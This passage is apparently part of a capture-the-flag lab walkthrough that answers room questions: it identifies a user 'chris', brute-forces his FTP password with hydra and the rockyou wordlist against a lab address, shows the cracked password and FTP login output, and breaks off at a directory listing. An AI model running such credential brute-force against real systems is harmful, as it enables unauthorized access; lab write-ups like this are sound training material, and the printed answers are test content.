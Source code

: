 ```
```
## Question
> What is the agent name?
- Let's go to the `Options` tab and set the `Follow redirection` option to `Always`.
![[13 2.png]]
- Now, let's start the attack again and check `Response 2` to see if it has any useful information.
![[7 15.png]]
- We are told the the user `chris` has a weak password.
- Knowing that FTP is running on the machine, this could be an opportunity for brute forcing.
## Answer
```
chris
```
# Task 3 Hash cracking and brute-force
## Question
> FTP password
- Using `hydra`, we can brute force the password for the user `chris`.
```
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.80.123
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-13 13:41:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.80.123:21/
[21][ftp] host: 10.10.80.123   login: chris   password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 6 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-13 13:42:52
```
- Now we know that the password for user `chris` is `crystal`.
## Answer
```
crystal
```
## Question
> Zip file password
- Let's login through FTP using those credentials.
```
$ ftp chris@10.10.80.123
Connected to 10.10.80.123.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
- Let's list out the contents.
```
ftp> ls
229 Entering Extended Passive Mode (|||36660|)
150 Here comes the directory listing.
```